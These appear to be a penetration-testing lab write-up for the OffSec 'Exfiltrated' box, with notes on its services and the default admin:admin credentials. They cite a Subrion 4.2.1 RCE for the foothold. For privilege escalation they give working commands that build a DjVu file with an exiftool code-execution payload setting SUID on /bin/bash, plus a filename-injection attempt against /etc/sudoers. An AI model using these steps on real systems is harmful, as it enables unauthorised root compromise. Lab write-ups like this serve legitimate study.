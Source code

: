 ### ++ Approach 192.168.239.163 ++
#### Credentials
	* admin:admin (Subrion Panel)

#### Services
	##### 22 SSH
		OpenSSH 8.2p1

	##### 80 Http
		exfiltrated.offsec
        Subrion 4.2.1
        Login panel: http://exfiltrated.offsec/panel/ (admin:admin)

### ++ Vulnerabilities ++

#### Vuln 1: RCE in Subrion 4.2.1 ++
	* Exploit: https://www.exploit-db.com/exploits/49876
    * It fails if we don't use the url correctly (ending in backslash '/')

### ++ System Interaction ++
#### Foothold  
	* Abusing vuln 1

#### Privilege Escalation 
	* The root user is executing the following script:
```bash
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE    
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```
    * We tried to abuse /etc/sudoers with GTFObins command, but we couldn't create a file called '../../../../../../tmp/sudoersjpg -filename=/etc/sudoers' to abuse this functionality, so we found **[this exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-exiftool-privilege-escalation/?source=post_page-----229b20b1fd04--------------------------------)**

    (In our attack machine)
        vim exploit 
            (metadata "\c${system('chmod +s /bin/bash')};")
        bzz exploit exploit.bzz 
        djvumake exploit-jpg.djvu INFO='1,1' BGjp=/dev/null ANTz=exploit.bzz

    Now move exploit-jpg.djvu to /var/www/html/subrion/uploads and after the script is executed we should have a SUID /bin/bash